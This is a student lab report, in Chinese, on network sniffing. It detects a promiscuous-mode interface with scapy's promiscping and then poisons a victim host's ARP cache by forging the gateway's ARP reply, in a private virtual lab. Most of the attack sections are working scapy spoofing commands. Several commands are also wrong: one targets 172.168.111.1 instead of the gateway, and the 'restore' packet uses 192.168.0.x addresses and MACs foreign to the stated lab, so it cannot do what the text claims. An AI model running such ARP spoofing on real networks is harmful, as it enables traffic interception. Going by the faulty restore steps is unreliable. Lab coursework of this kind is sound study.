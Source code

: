 ## 网络监听

### 实验环境

+ 网关`Debian-Gateway`
  + 172.16.111.1
  + 08:00:27:53:fa:69 / eth0
+ 攻击者主机`Kali-Attacker`
  + 172.16.111.140
  + 08:00:27:2a:7a:40 / eth0
+ 受害者主机`Kali-victim1`
  + 172.16.111.128
  + 08:00:27:44:1b:1e / eth0

### 检测局域⽹中的异常终端

#### 实验过程

+ 在受害者主机上检查网卡的「混杂模式」是否启用
  ```bash
  ip link show eth0
  ```

  ![](./image/ShowEth0.PNG)

+ 在攻击者主机上用scapy的promiscping发送Arp包，发现没有回应
  ```bash
  pkt = promiscping("172.16.111.128")
  ```

  ![](./image/没有回应.PNG)

+ 回到受害者主机上开启网卡的**混杂模式**,输出结果里多出来了`PROMISC` 

  ```bash
  ip link set eth0 promisc on

  ip link show eth0
  ```
  
  ![](./image/混杂模式.PNG)
  
+ 回到攻击者主机上的`scapy`交互式终端继续执行命令,发现收到了回复，抓包结果也验证了这一点,于是发现了处于混杂模式的网卡
  ```bash
  pkt = promiscping("172.16.111.128")

  # 实验完成后在受害者主机上将混杂模式关闭
  ip link set eth0 promisc off
  ```

  ![](./image/收到回复.PNG)

  ![](./image/抓包结果.PNG)

---

###  手工单步“毒化”目标主机的 ARP 缓存

#### 实验过程

+ 以下代码在攻击者主机上的 `scapy` 交互式终端完成
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.168.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()

  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  ![](./image/过程.PNG)
  
+ 伪造网关的`ARP`响应包,发送给受害者主机
   
  ```bash
  # 准备发送给受害者主机 172.16.111.128
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether(dst="08:00:27:44:1b:1e")/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.128", hwdst="08:00:27:2a:7a:40")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)

  # 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ip neigh
  ```
    
  ![](./image/毒化.PNG)

+ 恢复受害者主机的 `ARP` 缓存记录
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")

  sendp(restorepkt1, count=100, inter=0.2)

  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  # 静候几秒 ARP 缓存刷新成功，退出 ping
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  
  ![](./image/恢复.PNG)

### 参考

+ [课本第四章实验](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html )



  




